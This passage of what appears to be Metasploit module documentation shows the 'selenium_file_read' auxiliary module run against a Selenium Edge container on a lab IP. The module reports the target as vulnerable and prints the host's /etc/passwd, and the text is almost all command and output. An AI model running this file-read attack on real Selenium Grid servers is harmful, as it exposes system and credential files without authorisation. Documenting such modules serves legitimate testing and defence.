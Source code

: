 ```
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin
pulse:x:101:102:PulseAudio daemon,,,:/run/pulse:/usr/sbin/nologin

[*] Auxiliary module execution completed
```

### selenium/standalone-edge:4.27.0 installed with Docker on Ubuntu 24.04
```
msf6 auxiliary(gather/selenium_file_read) > run rhost=192.168.56.16 rport=4450 browser=MicrosoftEdge
[*] Running module against 192.168.56.16
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Selenium Grid version 4.x detected and ready.
[+] /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
seluser:x:1200:1201::/home/seluser:/bin/bash
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin
pulse:x:101:102:PulseAudio daemon,,,:/run/pulse:/usr/sbin/nologin

[*] Auxiliary module execution completed
```
